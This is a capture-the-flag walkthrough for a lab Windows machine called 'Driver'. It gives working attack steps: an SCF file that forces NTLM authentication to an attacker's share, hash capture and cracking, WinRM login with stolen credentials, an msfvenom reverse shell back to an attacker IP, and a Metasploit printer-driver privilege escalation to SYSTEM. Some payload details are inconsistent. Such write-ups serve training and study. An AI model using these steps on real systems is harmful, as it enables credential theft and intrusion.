 ```yaml
---
title: Driver
date: 2025-05-25
tags: [easy, windows]
---
```


### Task 1

We're prompted for log on credentials when accessing the target over HTTP. What username is disclosed when looking at the HTTP response headers?

We use curl with the option for fetching headers only ``curl -I <target_ip>`` and see on the ``WWW-Authenticate`` the username admin.

![alt text](image-dr-1.png)

### Task 2

Weak passwords are all too common and this target is no exception. What is the password for this target's login?

Before using any automated tools, we try with the default, common password ``admin`` and it gets us in. On the main page we are presented with a MFP Firmware Update Center.

![alt text](image-dr-2.png)

### Task 3

There are several kinds of files that are commonly dropped into a file share to target other users who may browse to the share. If the user browses to the share, their host will try to authenticate to the attacker. What is the file extension that can be uploaded here to trigger that connection?

The file that is asked here, has the extension ``.scf`` which stands for Shell Command File. This file can be placed on a writable SMB share or web-based file upload to force outbound authentication requests. For more detailed information visit [MITRE ATT&CK](https://attack.mitre.org/techniques/T1187/)

### Task 4

We've intercepted an Net-NTLMv2 hash with Responder. What is the mode in Hashcat required to crack this hash format?

When Responder intercepts a Net-NTLMv2 hash, the format looks like:

```
USERNAME::DOMAIN:ServerChallenge:NTProofStr:Blob
```

This structure corresponds exactly to the format supported by Hashcat mode 5600 which is backed up by the Hashcat official documentation [Hashcat Generic hash types](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Task 5

What is the tony user's password?

To solve this task, we will start responder ``sudo responder -I tun0`` and then upload a scf file to the file share via the printer upload form that would trigger an SMB authentication. We create a file as follows:

```
[Shell]
Command=2
IconFile=\\<host_ip>\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

This works, and the Net-NTLMv2 hash is captured by Responder because this upload is reviewed manually and thus opened as the web page explains.

![alt text](image-dr-3.png)

As mentioned in the previous task, the full hash string can be cracked using Hashcat mode 5600. We create a file called tony_hash with this hash, we run ``hashcat -m 5600 -a 0 tony_hash.txt /usr/share/wordlists/rockyou.txt`` and the password is cracked.

### Task 6

Submit the flag located on the tony user's desktop.

We will first list the shared folders on the target Microsoft-DS by running ``smbclient -L //<target_ip> -U 'tony'`` using the user tony's password we found in the previous task. 

![alt text](image-dr-4.png)

Then we can try connecting directly to the ``C$`` default share by running ``smbclient //<target_ip>/C$ -U 'tony'`` which gave us access denied. We then try ``crackmapexec smb <target_ip> -u tony -p 'liltony' --shares`` 

![alt text](image-dr-5.png)

This validates that the user does not have access but we see that Windows 10 Enterprise is used which by default has WinRM installed and often enabled.

``crackmapexec winrm <target_ip> -u tony -p liltony``

![alt text](image-dr-16.png)

Since the service is enabled we can use ``evil-winrm -i <target_ip> -u tony -p liltony``. We have access and navigating to tony's Desktop we get the flag by ``cat user.txt``.

10.129.192.136

### Task 7

What is the filename that stores the command history for PowerShell for tony?

Based on [Microsoft Documentation](https://learn.microsoft.com/en-us/powershell/module/psreadline/get-psreadlineoption?view=powershell-7.5) the location of the command history can be revealed from the property ``HistorySavePath`` after running ``Get-PSReadlineOption``. Trying this did not work on the WinRM because it is not a fully interactive terminal. We try to view the default location to see if the history is stored there by ``type "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"`` and it works, thus, the filename is ``ConsoleHost_history.txt``.

### Task 8 

Looking at the Powershell history we can see some actions being performed with a specific printer type. Research of this should show that it's exploitable for privilege escalation and a module is available for the Metasploit framework. What is the module name?

Looking through the output of the command history we see the driver name and name for the printer. Looking up on the CVE database online, we find the CVE to be ``CVE-2019-19363``. We spin Metasploit by ``msfonsole`` and search for the CVE ID by ``search cve:2019-19363`` finding the module name. 

![alt text](image-dr-6.png)

![alt text](image-dr-7.png)

### Task 9 

Initial attempts to exploit this vulnerability may fail under specific logon types such as non-interactive, but in this scenario we can switch to an interactive logon. What command can be used in Metasploit to switch to an interactive logon process?

First, we generate a Meterpreter Payload ``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=4444 -f exe > shell.exe``. Then, run ``msfconsole`` to spin up a metasploit listener and start the module previously found by:

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <host_ip>
set LPORT 4444
run
```

Then, we upload the paylod inside the Evil-WinRM session ``upload shell.exe``and execute it ``.\shell.exe``. Going back to the Metasploit we get an interactive shell back.

![alt text](image-dr-9.png)

We need to ``backrgound`` that session and then start the module to exploit the vulnerable driver with the known CVE we found in the previous task. 

```
use exploit/windows/local/ricoh_driver_privesc
set session <session_id>
set LHOST <host_ip>
set payload windows/x64/meterpreter/reverse_tcp
run
```

Even though it seems that is working, the terminal hungs. The Ricoh driver exploit requires an interactive logon session with GUI access. So we need to use the ``migrate`` command to migrate the Meterpreter session into a GUI-based process. Bringing back the metasploit session by running ``sessions -i <session_id>`` and listing the processes ``ps`` we see that a good candidate is the ``explorer.exe``. We migrate by running ``migrate <explorer_id>``, then run the exploit again and it works. To validate we run ``getuid`` and we see that we have SYSTEM rights. 

![alt text](image-dr-10.png)

### Task 10 

In addtion to the 'RICOH PCL6 UniversalDriver V4.23' vulnerabiltiy, this target is also vulnerable to CVE-2021-1675 aka PrintNightmare. Is it possible to elevate to SYSTEM privileges with this CVE?

Loocking up this CVE on the CVE database, it is confirmed that there is a Metasploit module that if used, results in remote code execution as NT \AUTHORITY\SYSTEM.

### Task 11

Submit the flag located on the administrator's desktop.

From Task 9, we already have SYSTEM privileges. Navigating to the administrator's desktop we get the root flag by running ``cat root.txt``.
